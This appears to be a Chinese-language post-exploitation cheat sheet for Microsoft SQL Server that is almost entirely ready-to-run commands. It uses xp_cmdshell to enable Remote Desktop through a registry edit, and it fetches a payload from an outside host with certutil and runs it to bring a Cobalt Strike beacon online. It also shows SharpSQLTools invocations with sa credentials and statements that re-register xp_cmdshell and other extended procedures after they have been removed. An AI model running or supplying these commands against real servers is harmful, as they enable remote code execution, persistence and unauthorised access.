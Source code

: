 利用xp_cmdshell开启3389

```
exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```

利用xp_cmdshell执行powershell命令上线CS

```
exec master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.129:9090/payload64.txt c:\\inetpub\\wwwroot\\payload1.bat'
exec master..xp_cmdshell 'c:\\inetpub\\wwwroot\\payload1.bat'
```

SharpSQLTools利用xp_cmdshell

```
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master enable_xp_cmdshell
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master xp_cmdshell whoami
```

PS：若xp_cmdshell被删除，则需要重新恢复或上传xplog70.dll进行恢复，恢复语句如下

```
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','xplog70.dll路径'
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
```

```
Select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'  #返回1则说明扩展存储存在
```

#### 其他可利用扩展存储

- xp_subdirs  用于得到给定的文件夹内的文件夹列表
